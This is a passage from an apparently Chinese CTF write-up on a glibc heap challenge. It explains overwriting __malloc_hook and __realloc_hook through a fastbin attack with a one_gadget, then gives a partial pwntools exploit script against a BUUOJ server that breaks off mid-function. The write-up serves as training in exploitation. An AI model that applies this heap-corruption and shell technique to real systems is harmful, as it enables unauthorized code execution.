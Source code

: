 而__realloc_hook和__malloc_hook刚好是挨着的，我们在fastbin attack时可以一并修改

![](img/396a9fdd3eb08d57f8b527686885b9ab.png)

故考虑修改__malloc_hook跳转至realloc函数开头的gadget调整堆栈，修改__realloc_hook为one_gadget即可getshell

构造exp如下：

```
from pwn import *
p = remote('node3.buuoj.cn', 28978)
libc = ELF('./libc-2.23.so')
context.log_level = 'DEBUG'
one_gadget = 0x4526a

def cmd(command:int):
    p.recvuntil(b"choice: ")
    p.sendline(str(command).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"size?")
    p.sendline(str(size).encode())
    p.recvuntil(b"content:")
    p.send(content)

def edit(index:int, content):
    cmd(2)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())
    p.recvuntil(b"content:")
    p.send(content)

def show(index:int):
    cmd(3)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def free(index:int):
    cmd(4)
    p.recvuntil(b"idx?")
    p.sendline(str(index).encode())

def exp():

    new(0x18, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 
    new(0x60, "arttnba3") 

    edit(0, b'A' * 0x10 + p64(0) + b'\xe1') 
    free(1)
    new(0x60, "arttnba3") 
```